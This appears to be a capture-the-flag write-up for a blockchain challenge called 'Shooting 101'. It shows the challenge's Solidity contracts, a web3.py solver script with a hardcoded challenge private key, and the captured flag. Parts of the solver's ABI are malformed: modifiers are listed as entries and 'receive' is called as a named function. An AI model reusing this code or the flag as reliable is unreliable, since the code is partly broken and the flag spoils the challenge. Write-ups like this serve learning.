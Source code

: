 Shooting 101 is the second challenge in the Blockchain category. We receive the `Setup.sol` with the code below:

```python
pragma solidity ^0.8.18;

import {ShootingArea} from "./ShootingArea.sol";

contract Setup {
    ShootingArea public immutable TARGET;

    constructor() {
        TARGET = new ShootingArea();
    }

    function isSolved() public view returns (bool) {
        return TARGET.firstShot() && TARGET.secondShot() && TARGET.thirdShot();
    }
}
```
The second file is called `ShootingArea.sol` and contains the code below:

```python
pragma solidity ^0.8.18;

contract ShootingArea {
    bool public firstShot;
    bool public secondShot;
    bool public thirdShot;

    modifier firstTarget() {
        require(!firstShot && !secondShot && !thirdShot);
        _;
    }

    modifier secondTarget() {
        require(firstShot && !secondShot && !thirdShot);
        _;
    }

    modifier thirdTarget() {
        require(firstShot && secondShot && !thirdShot);
        _;
    }

    receive() external payable secondTarget {
        secondShot = true;
    }

    fallback() external payable firstTarget {
        firstShot = true;
    }

    function third() public thirdTarget {
        thirdShot = true;
    }
}
```

I also solved this with ChatGPT's help but it was much more of a struggle as it kept giving me incorrect code. I went through too many steps to fix and teach ChatGPT on what to provide. Sometimes it's better to give ChatGPT smaller requests, in smaller steps and then build up from there.

We connect to the TCP endpoint again to get the connection information we need to reach the contract:

![image](https://user-images.githubusercontent.com/80063008/227481795-6d80b231-3e60-4de5-a5f7-33e5f0ae9d4f.png)

Ultimately we get the solver script below:

```python
from web3 import Web3
import json

# connect to the blockchain
w3 = Web3(Web3.HTTPProvider('http://68.183.37.122:31168'))

# set the private key and the account address
private_key = '0x6840d3f07bd2b72d35be78376e334ae56cfad8ba0d47dc604b5b45f890714d1a'
account_address = '0x9A5F9b600CC88a04a2315Df8EEc837F0a43891E5'

# set up the contract instances
target_address = '0x080322a844525a6070C21C92b2271c1215461FC4'
target_abi = [
    {
        "inputs": [],
        "name": "firstShot",
        "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "secondShot",
        "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "thirdShot",
        "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "firstTarget",
        "outputs": [],
        "stateMutability": "view",
        "type": "modifier"
    },
    {
        "inputs": [],
        "name": "secondTarget",
        "outputs": [],
        "stateMutability": "view",
        "type": "modifier"
    },
    {
        "inputs": [],
        "name": "thirdTarget",
        "outputs": [],
        "stateMutability": "view",
        "type": "modifier"
    },
    {
        "inputs": [],
        "name": "receive",
        "outputs": [],
        "stateMutability": "payable",
        "type": "function",
        "payable": True,
        "modifiers": [{"name": "secondTarget", "type": "modifier"}]
    },
    {
        "inputs": [],
        "name": "fallback",
        "outputs": [],
        "stateMutability": "payable",
        "type": "function",
        "payable": True,
        "modifiers": [{"name": "firstTarget", "type": "modifier"}]
    },
    {
        "inputs": [],
        "name": "third",
        "outputs": [],
        "stateMutability": "nonpayable",
        "type": "function",
        "modifiers": [{"name": "thirdTarget", "type": "modifier"}]
    }
]

target = w3.eth.contract(address=target_address, abi=target_abi)

setup_address = '0xDC3c85F904A4150a415C45aba28b6cfb4D9E091D'
setup_abi = [
    {
        "inputs": [],
        "name": "TARGET",
        "outputs": [{"internalType": "contract ShootingArea", "name": "", "type": "address"}],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "isSolved",
        "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "TARGET",
        "outputs": [],
        "stateMutability": "nonpayable",
        "type": "constructor"
    }
]

setup = w3.eth.contract(address=setup_address, abi=setup_abi)

nonce = w3.eth.get_transaction_count(account_address)
tx_hash = w3.eth.account.sign_transaction({
    'nonce': nonce,
    'from': account_address,
    'to': target_address,
    'value': 0,
    'gas': 100000,
    'gasPrice': 200000
}, private_key=private_key)
tx_receipt = w3.eth.send_raw_transaction(tx_hash.rawTransaction)

# wait for the transaction to be mined
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_receipt)



nonce = w3.eth.get_transaction_count(account_address)
# call the receive function on the target contract to trigger the secondShot modifier
tx_hash = target.functions.receive().build_transaction({
    'nonce': nonce,
    'from': account_address,
    'value': 1,
    'gas': 100000
})
signed_tx = w3.eth.account.sign_transaction(tx_hash, private_key=private_key)
tx_receipt = w3.eth.send_raw_transaction(signed_tx.rawTransaction)

# wait for the transaction to be mined
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_receipt)

# call the third function on the target contract to trigger the thirdShot modifier
nonce = w3.eth.get_transaction_count(account_address)
tx_hash = target.functions.third().build_transaction({
    'nonce': nonce,
    'from': account_address,
    'gas': 100000
})
signed_tx = w3.eth.account.sign_transaction(tx_hash, private_key=private_key)
tx_receipt = w3.eth.send_raw_transaction(signed_tx.rawTransaction)

# wait for the transaction to be mined
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_receipt)

# check the new state
is_solved = setup.functions.isSolved().call()
first_shot = target.functions.firstShot().call()
second_shot = target.functions.secondShot().call()
third_shot = target.functions.thirdShot().call()

# print the new state
print(f'firstShot: {first_shot}')
print(f'secondShot: {second_shot}')
print(f'thirdShot: {third_shot}')
print(f'isSolved: {is_solved}')
```

After running the script we see that all our conditions have been met:

![image](https://user-images.githubusercontent.com/80063008/227481891-4e3b3628-5dfe-4bda-849f-3acbb4d54b6d.png)

After all the conditions were met we can connect to the TCP endpoint and get the flag:

![image](https://user-images.githubusercontent.com/80063008/227485784-3ec51433-8e09-46d3-bf39-894f982df3e4.png)

HTB{f33l5_n1c3_h1771n6_y0ur_74r6375}
